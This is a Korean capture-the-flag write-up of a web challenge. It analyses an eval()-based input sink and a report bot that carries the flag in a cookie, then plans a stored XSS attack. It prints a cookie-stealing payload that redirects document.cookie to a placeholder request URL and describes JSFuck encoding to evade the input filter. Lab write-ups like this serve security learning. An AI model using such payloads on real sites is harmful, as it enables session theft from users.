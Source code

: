 <h1>1. 웹페이지 접속</h1>
 

 

대상 웹사이트에 접속하였을 때의 메인화면이다. Baby's music, Saved, Go to Report 세가지 메뉴가 존재한다.

 

먼저 Baby's music 메뉴에 접근해보았을 때 메뉴는 다음과 같다.

 

대상 웹사이트 메인
Baby's music (1)
 

입력할 수 있는 입력창과 확인 버튼 그리고 save 버튼이 존재하였으며 일단 임의의 문자열 입력 후 확인 버튼을 클릭해보았다.

 

대상 웹사이트 메인
Baby's music (2)
 

nope! 이라는 메시지가 출력되었다.

 

대상 웹사이트 메인
Baby's music (3)
 

임의의 숫자를 입력 후 확인 버튼 클릭 시 입력한 숫자가 포함된 문자열이 출력되는 것을 확인하였으며 save 버튼 클릭 시 id를 발급받을 수 있었다.

 

다음은 Saved 메뉴에 접근해보았다.

 

대상 웹사이트 메인
Saved (1)
 

?id= 라는 문자열이 출력되었다. ?가 붙어있는 것을 보고 파라미터인 것 같다는 생각이 들어 url에 파라미터를 입력해보았다.

 

대상 웹사이트 메인
Saved (2)
 

id 파라미터에 방금 발급받았던 id 값을 입력하였더니 사용자가 입력한 값이 포함되어 저장된 내용이 출력되었다.

 

다음은 Go to Report 메뉴에 접근해보았다.

 

대상 웹사이트 메인
Go to Report (1)
 

입력창과 제출 버튼이 있어 임의의 문자열 입력 후 제출 버튼을 클릭해보았다.

 

대상 웹사이트 메인
Go to Report (2)
 

Reported! 메시지가 출력되었는데 어떤 기능이 실행되는지는 알 수 없었다.

 

코드 분석
 

대상 웹사이트 메인
코드 분석 (1)
 

cookies 변수에 FLAG 가 저장되어있는 것을 알 수 있다.

 

대상 웹사이트 메인
코드 분석 (2)
 

이 코드를 통해 Go to Report 메뉴의 기능을 확인할 수 있었다. cookies 변수에 저장된 값을 이용하여 쿠키를 세팅하며 요청 패킷의 url 파라미터를 통해 입력받은 url로 서버에서 접근하게 된다는 것을 알 수 있다. 프록시를 통해 확인한 url 파라미터 값은 다음과 같다.

 

대상 웹사이트 메인
코드 분석 (3)
 

 

다음으로 주목할 부분은 Baby's music 메뉴의 소스코드이다.

 

대상 웹사이트 메인
코드 분석 (4)
 

입력 받은 값을 정규 표현식을 통해 필터링하는 부분이 존재하며 필터링되지 않는다면 eval 함수의 인자값에 사용자가 입력한 값이 포함되는 것을 확인하였다. 이를 통해 악의적인 스크립트를 삽입할 수 있을 것이라고 생각하였다.

 

공격 시나리오
 

웹사이트의 메뉴를 확인하고 코드를 분석한 결과 다음과 같은 시나리오를 생각해보았다.

 

1. Baby's music 메뉴에서 악의적인 스크립트를 삽입한 후 save 한다.

 

2. Go to Report 메뉴에서 saved?id='save_id' 를 입력하여 서버 측에서 악의적인 스크립트가 삽입된 페이지에 접근하도록 하여 쿠키를 탈취한다.

 

 

공격 실행
 

1) Baby's music 메뉴에서 악의적인 스크립트를 삽입한 후 save 한다.

 

Baby's music 메뉴에서 다음과 같은 스크립트를 삽입하고자 한다.

 


',location.href="request_url/"+document.cookie,'
 

스크립트의 앞부분에 ', 과 뒷부분에는 ,' 가 존재하는 이유는 Baby's music 에서 입력한 값은 eval 함수의 인자에 삽입되기 때문이다.

 


eval(`msg.innerHTML='This is recommended album for ${age}-year-old.'`);
 

 

입력한 값이 ${age} 에 삽입되게 되는데 악의적인 스크립트가 삽입된 결과는 다음과 같다.

 


eval(`msg.innerHTML='This is recommended album for ',location.href="request_url/"+document.cookie,'-year-old.'`);
 

 

이렇게 삽입되면 eval 함수를 통해 삽입된 악의적인 스크립트가 실행된다.

 

하지만 알파벳은 필터링되어 스크립트가 삽입될 수 없으므로 다른 방법으로 삽입해야한다.

 

대상 웹사이트 메인
공격 실행 (1)
 

삽입할 스크립트를 JSFuck 기법으로 인코딩하여 삽입한다.

 

먼저 임의의 숫자를 입력 후 save 버튼을 클릭한다.

 

대상 웹사이트 메인
공격 실행 (2)
 

프록시 도구에서 스크립트를 삽입한다.

 

대상 웹사이트 메인
공격 실행 (3)
 

발급받은 id 값을 확인한다.

대상 웹사이트 메인
공격 실행 (4)
 

Go to Report 메뉴로 이동하여 saved?id='발급받은 id' 를 입력 후 제출 버튼을 클릭한다.

 

대상 웹사이트 메인
공격 실행 (5)
 

 

쿠키 탈취에 성공하여 flag를 확인하였다.

 

대상 웹사이트 메인
공격 실행 (6)

